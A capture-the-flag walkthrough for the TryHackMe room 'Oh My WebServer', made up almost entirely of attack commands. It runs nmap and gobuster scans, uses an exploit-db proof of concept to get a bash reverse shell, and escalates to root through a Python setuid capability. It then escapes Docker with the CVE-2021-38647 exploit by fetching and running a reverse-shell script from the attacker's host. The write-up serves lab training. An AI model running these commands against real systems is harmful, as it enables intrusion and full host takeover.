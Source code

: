 # Oh My WebServer

**Room Link:** [https://tryhackme.com/room/ohmyweb](https://tryhackme.com/room/ohmyweb)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50383](https://www.exploit-db.com/raw/50383)

**Kali**

```
nc -lvnp 1337
```

**Kali**

```
wget https://www.exploit-db.com/raw/50383 -O poc.sh
chmod +x poc.sh
./poc.sh targets.txt /bin/bash "bash -c 'bash -i >& /dev/tcp/$KALI/1337 0>&1'"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Privileges Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
getcap -r / 2>/dev/null
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



#### Nmap

Scanned the gateway&#x20;

**Kali**

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/nmap -O nmap
chmod +x nmap
./nmap -p- 172.17.0.1 --min-rate=700 -vvv
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privileges Escalation / Breakout of Docker



**shell.sh**

```
#!/bin/bash

sh -i >& /dev/tcp/$KALI/1338 0>&1
```

**Kali**

```
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/omigod.py -O omigod.py
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
python3 omigod.py -t 172.17.0.1 -c "curl http://$KALI:81/shell.sh -O shell.sh"
python3 omigod.py -t 172.17.0.1 -c "chmod +x shell.sh"
python3 omigod.py -t 172.17.0.1 -c "./shell.sh"
```

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
